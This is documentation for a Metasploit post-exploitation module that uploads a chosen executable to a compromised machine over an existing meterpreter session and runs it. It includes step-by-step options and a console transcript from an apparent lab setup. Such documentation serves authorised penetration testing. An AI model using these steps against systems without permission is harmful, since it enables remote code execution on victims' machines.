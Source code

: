 ## Vulnerable Application

This module allows you to upload a binary file, and automatically execute it.

The following platforms are supported:

* Windows
* Linux
* OS X

## Verification Steps

1. Prepare for an executable file you wish to upload and execute.
2. Obtain a session from the target machine.
3. In msfconsole, do ```use post/multi/manage/upload_exec```
4. Set the ```LFILE``` option
5. Set the ```RFILE``` option
6. Set the ```SESSION``` option
7. ```run```

## Options

**LFILE**

The file on your machine that you want to upload to the target machine.

**RFILE**

The file path on the target machine. This defaults to LFILE.

## Scenarios

```
msf > use post/multi/manage/upload_exec
msf post(upload_exec) > show options

Module options (post/multi/manage/upload_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   LFILE                     yes       Local file to upload and execute
   RFILE                     no        Name of file on target (default is basename of LFILE)
   SESSION                   yes       The session to run this module on.

msf post(upload_exec) > set lfile /tmp/
lfile => /tmp/
msf post(upload_exec) > set lfile /tmp/msg.exe
lfile => /tmp/msg.exe
msf post(upload_exec) > set rfile C:\\Users\\sinn3r\\Desktop\\msg.exe
rfile => C:\Users\sinn3r\Desktop\msg.exe
msf post(upload_exec) > sessions

Active sessions
===============

  Id  Type                     Information                               Connection
  --  ----                     -----------                               ----------
  1   meterpreter x86/windows  WIN-6NH0Q8CJQVM\sinn3r @ WIN-6NH0Q8CJQVM  192.168.146.1:4444 -> 192.168.146.149:50168 (192.168.146.149)

msf post(upload_exec) > set session 1
session => 1

msf post(upload_exec) > run

[-] Post interrupted by the console user
[*] Post module execution completed
```
